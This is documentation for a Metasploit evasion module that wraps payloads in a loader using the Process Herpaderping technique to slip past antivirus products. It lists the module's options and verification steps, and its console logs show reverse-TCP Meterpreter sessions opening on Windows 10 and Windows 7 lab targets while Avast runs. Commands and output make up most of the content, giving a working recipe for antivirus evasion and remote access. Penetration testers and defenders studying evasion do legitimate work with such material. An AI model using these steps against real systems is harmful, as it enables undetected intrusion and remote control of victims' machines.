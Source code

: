 ## Description
This module allows you to generate a Windows executable that evades security
products such as Windows Defender, Avast, etc. This uses the Process
Herpaderping technique to bypass Antivirus detection. This method consists in
obscuring the behavior of a running process by modifying the executable on disk
after the image has been mapped in memory (more details
[here](https://jxy-s.github.io/herpaderping/)).

First, the chosen payload is encrypted and embedded in a loader Portable
Executable (PE) file. This file is then included in the final executable. Once
this executable is launched on the target, the loader PE is dropped on disk and
executed, following the Process Herpaderping technique. Note that the name of
the file that is being dropped is randomly generated. However, it is possible
to configure the destination path from Metasploit (see `WRITEABLE_DIR` option
description).

Here is the main workflow:

1. Retrieve the target name (where the PE loader will be dropped).
1. Retrieve the PE loader from the binary and write it on disk.
1. Create a [section object](https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/section-objects-and-views)
   and create a process from the mapped image.
1. Modify the file content on disk by copying another (inoffensive) executable
   or by using random bytes (see `REPLACED_WITH_FILE` option description).
1. Create the main Thread.

The source code is based on [Johnny Shaw](https://twitter.com/jxy__s)'s
[PoC](https://github.com/jxy-s/herpaderping).

**This payload won't work on 32-bit Windows 10 versions from 1511 (build
10586) to 1703 (build 15063), including Windows 10 2016 LTSB (build 14393).**
These versions have a bug in the kernel that crashes/BugCheck the OS
when executing this payload. So, to avoid this, the payload won't run if
it detects the OS is one of these versions. More details [here](https://bugs.chromium.org/p/project-zero/issues/detail?id=852).

## Verification Steps
Here are the steps using a Meterpreter payload on a 64-bits target:

1. Do: `use evasion/windows/process_herpaderping`
1. Do: `set LHOST <local IP>`
1. Do: `set target 0`
1. Do: `set payload windows/x64/meterpreter/reverse_tcp`
1. Do: `handler -p windows/x64/meterpreter/reverse_tcp -H <local IP> -P <local port>`
1. Do: `run`
1. Copy the generated executable file to the target (using another exploit or SMB)
1. Run it on the target
1. Verify the Antivirus did not block its execution
1. Verify you got a session

## Options

### ENCODER
A specific encoder to use (automatically selected if not set). Note that the
encoded payload will be automatically encrypted before being placed into the
loader.

### FILENAME
Filename for the generated evasive file file. The default is random.

### WRITEABLE_DIR
Where to write the loader on disk. Windows environment variables can be used
in the path and the default is set to `%TEMP%`. Note that this file will be
removed automatically when the session is terminated or if an error occurs.

### REPLACED_WITH_FILE
The file to replace the target with. If not set, the target file will be filled
with random bytes (WARNING! it is likely to be caught by AV). Windows
environment variables can be used in the path and the default is set to
`%SystemRoot%\\System32\\calc.exe`.


## Scenarios
### Windows 10 x64 version 1909 with Avast Antivirus (also tested with Windows Defender)
```
msf6 > use evasion/windows/process_herpaderping
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 evasion(windows/process_herpaderping) > set LHOST 192.168.144.1
LHOST => 192.168.144.1
msf6 evasion(windows/process_herpaderping) > set target 0
target => 0
msf6 evasion(windows/process_herpaderping) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 evasion(windows/process_herpaderping) > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.144.1 -P 4444
[*] Payload handler running as background job 0.

[*] Started reverse TCP handler on 192.168.144.1:4444
msf6 evasion(windows/process_herpaderping) > run
[+] raU.exe stored at /home/msfuser/.msf4/local/raU.exe
msf6 evasion(windows/process_herpaderping) > cp /home/msfuser/.msf4/local/raU.exe /remote_share/tmp/test_x64.exe
[*] exec: cp /home/msfuser/.msf4/local/raU.exe /remote_share/tmp/test_x64.exe

msf6 evasion(windows/process_herpaderping) >
[*] Sending stage (200262 bytes) to 192.168.144.128
[*] Meterpreter session 1 opened (192.168.144.1:4444 -> 192.168.144.128:50205) at 2021-01-22 13:02:14 +0100

msf6 evasion(windows/process_herpaderping) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-UUQE0B4
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-UUQE0B4\n00tmeg
meterpreter > [*] Shutting down Meterpreter...

[*] 192.168.144.128 - Meterpreter session 1 closed.  Reason: User exit
```

### Windows 7 x86 with Avast Antivirus
```
msf6 evasion(windows/process_herpaderping) > set target 1
target => 1
msf6 evasion(windows/process_herpaderping) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 evasion(windows/process_herpaderping) > options

Module options (evasion/windows/process_herpaderping):

   Name                Current Setting                 Required  Description
   ----                ---------------                 --------  -----------
   ENCODER                                             no        A specific encoder to use (automatically selected if not set)
   FILENAME            raU.exe                         yes       Filename for the evasive file (default: random)
   REPLACED_WITH_FILE  %SystemRoot%\System32\calc.exe  no        File to replace the target with. If not set, the target file will be filled with random bytes (WARNING! it is likely to be caught by AV).
   WRITEABLE_DIR       %TEMP%                          yes       Where to write the loader on disk


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.144.1    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Evasion target:

   Id  Name
   --  ----
   1   Microsoft Windows (x86)


msf6 evasion(windows/process_herpaderping) > run

[+] raU.exe stored at /home/msfuser/.msf4/local/raU.exe
[!] #### WARNING ####
This payload won't work on 32-bit Windows 10 versions from 1511 (build
10586) to 1703 (build 15063), including Windows 10 2016 LTSB (build 14393).
These versions have a bug in the kernel that crashes/BugCheck the OS
when executing this payload. So, to avoid this, the payload won't run if
it detects the OS is one of these versions.
msf6 evasion(windows/process_herpaderping) > cp /home/msfuser/.msf4/local/raU.exe /remote_share/tmp/test_x86.exe
[*] exec: cp /home/msfuser/.msf4/local/raU.exe /remote_share/tmp/test_x86.exe

msf6 evasion(windows/process_herpaderping) > jobs -K
Stopping all jobs...
msf6 evasion(windows/process_herpaderping) > handler -p windows/meterpreter/reverse_tcp -H 192.168.144.1 -P 4444
[*] Payload handler running as background job 1.

[*] Started reverse TCP handler on 192.168.144.1:4444
msf6 evasion(windows/process_herpaderping) > [*] Sending stage (175174 bytes) to 192.168.144.133
[*] Meterpreter session 3 opened (192.168.144.1:4444 -> 192.168.144.133:51542) at 2021-01-22 13:09:43 +0100

msf6 evasion(windows/process_herpaderping) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > sysinfo
Computer        : WIN7-DEV
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: WIN7-DEV\n00tmeg
meterpreter > [*] Shutting down Meterpreter...

[*] 192.168.144.133 - Meterpreter session 3 closed.  Reason: User exit
```
